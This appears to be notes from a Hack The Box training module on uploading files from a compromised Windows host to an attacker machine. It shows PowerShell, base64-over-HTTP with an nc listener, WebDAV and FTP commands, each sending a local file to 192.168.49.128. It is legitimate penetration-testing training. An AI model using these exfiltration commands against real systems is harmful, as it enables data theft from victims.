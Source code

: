 `XeroCyb3r@htb[/htb]**$** md5sum hosts`

## PowerShell Web Uploads

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function.

`XeroCyb3r@htb[/htb]**$** pip3 install uploadserver`

`XeroCyb3r@htb[/htb]**$** python3 -m uploadserver`

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-WebRequest` to perform the upload operations.

The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file.

`PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`

## PowerShell Base64 Web Upload

`PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`

`PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`

`XeroCyb3r@htb[/htb]**$** nc -lvnp 8000`

`XeroCyb3r@htb[/htb]**$** echo <base64> | base64 -d -w 0 > hosts`

## SMB Uploads

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

In the following Wireshark capture, we attempt to connect to the file share `testing3`, and because it didn't find anything with `SMB`, it uses `HTTP`.

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav)).

`XeroCyb3r@htb[/htb]**$** sudo pip install wsgidav cheroot`

`XeroCyb3r@htb[/htb]**$** sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

`C:\htb> dir \\192.168.49.128\DavWWWRoot`

`C:\htb> copy <file path> \\192.168.49.129\DavWWWRoot\`

## FTP Uploads

`XeroCyb3r@htb[/htb]**$** sudo python3 -m pyftpdlib --port 21 --write`

`PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
